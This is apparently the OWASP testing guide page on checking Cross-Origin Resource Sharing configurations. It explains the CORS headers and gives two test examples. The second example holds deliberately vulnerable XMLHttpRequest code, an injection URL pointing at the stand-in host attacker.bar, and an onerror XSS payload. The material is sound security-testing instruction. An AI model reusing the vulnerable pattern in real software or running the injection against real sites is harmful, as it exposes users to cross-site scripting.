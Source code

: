 ```yaml
---

layout: col-document
title: WSTG - Stable
tags: WSTG

---
```


{% include breadcrumb.html %}
# Testing Cross Origin Resource Sharing

|ID          |
|------------|
|WSTG-CLNT-07|

## Summary

[Cross origin resource sharing](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing) (CORS) is a mechanism that enables a web browser to perform cross-domain requests using the XMLHttpRequest L2 API in a controlled manner. In the past, the XMLHttpRequest L1 API only allowed requests to be sent within the same origin as it was restricted by the same origin policy.

Cross-origin requests have an origin header that identifies the domain initiating the request and is always sent to the server. CORS defines the protocol to use between a web browser and a server to determine whether a cross-origin request is allowed. HTTP [headers](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing#Headers) are used to accomplish this.

The [W3C CORS specification](https://www.w3.org/TR/cors/) mandates that for non simple requests, such as requests other than GET or POST or requests that uses credentials, a pre-flight OPTIONS request must be sent in advance to check if the type of request will have a bad impact on the data. The pre-flight request checks the methods and headers allowed by the server, and if credentials are permitted. Based on the result of the OPTIONS request, the browser decides whether the request is allowed or not.

### Origin & Access-Control-Allow-Origin

The origin header is always sent by the browser in a CORS request and indicates the origin of the request. The origin header can not be changed from JavaScript however relying on this header for Access Control checks is not a good idea as it may be spoofed outside the browser, so you still need to check that application-level protocols are used to protect sensitive data.

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a `*` wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed. Other insecure example is when the server returns back the origin header without any additional checks, what can lead to access of sensitive data. Note that this configuration is very insecure, and is not acceptable in general terms, except in the case of a public API that is intended to be accessible by everyone.

### Access-Control-Request-Method & Access-Control-Allow-Method

The Access-Control-Request-Method header is used when a browser performs a preflight OPTIONS request and let the client indicate the request method of the final request. On the other hand, the Access-Control-Allow-Method is a response header used by the server to describe the methods the clients are allowed to use.

### Access-Control-Request-Headers & Access-Control-Allow-Headers

These two headers are used between the browser and the server to determine which headers can be used to perform a cross-origin request.

### Access-Control-Allow-Credentials

This header as part of a preflight request indicates that the final request can include user credentials.

### Input Validation

XMLHttpRequest L2 (or XHR L2) introduces the possibility of creating a cross-domain request using the XHR API for backwards compatibility. This can introduce security vulnerabilities that in XHR L1 were not present. Interesting points of the code to exploit would be URLs that are passed to XMLHttpRequest without validation, specially if absolute URLs are allowed because that could lead to code injection. Likewise, other part of the application that can be exploited is if the response data is not escaped and we can control it by providing user-supplied input.

### Other Headers

There are other headers involved like Access-Control-Max-Age that determines the time a preflight request can be cached in the browser, or Access-Control-Expose-Headers that indicates which headers are safe to expose to the API of a CORS API specification, both are response headers specified in the CORS W3C document.

## Test Objectives

- Identify endpoints that implement CORS.
- Ensure that the CORS configuration is secure or harmless.

## How to Test

A tool such as [ZAP](https://www.zaproxy.org) can enable testers to intercept HTTP headers, which can reveal how CORS is used. Testers should pay particular attention to the origin header to learn which domains are allowed. Also, manual inspection of the JavaScript is needed to determine whether the code is vulnerable to code injection due to improper handling of user supplied input. Below are some examples:

### Example 1: Insecure Response with Wildcard `*` in Access-Control-Allow-Origin

Request `http://attacker.bar/test.php` (note the 'origin' header):

```http
GET /test.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/CORSexample1.html
Origin: http://example.foo
Connection: keep-alive
```

Response (note the 'Access-Control-Allow-Origin' header:)

```http
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[Response Body]
```

### Example 2: Input Validation Issue: XSS with CORS

This code makes a request to the resource passed after the `#` character in the URL, initially used to get resources in the same server.

Vulnerable code:

```html
<script>
    var req = new XMLHttpRequest();

    req.onreadystatechange = function() {
        if(req.readyState==4 && req.status==200) {
            document.getElementById("div1").innerHTML=req.responseText;
        }
    }

    var resource = location.hash.substring(1);
    req.open("GET",resource,true);
    req.send();
</script>

<body>
    <div id="div1"></div>
</body>
```

For example, a request like this will show the contents of the `profile.php` file:

`http://example.foo/main.php#profile.php`

Request and response generated by `http://example.foo/profile.php`:

```html
GET /profile.php HTTP/1.1
Host: example.foo
[...]
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
[...]
Content-Length: 25
Content-Type: text/html

[Response Body]
```

Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the `example.foo` domain, with a URL like this:

```text
http://example.foo/main.php#http://attacker.bar/file.php
```

Request and response generated by `http://attacker.bar/file.php`:

```html
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/main.php
origin: http://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```
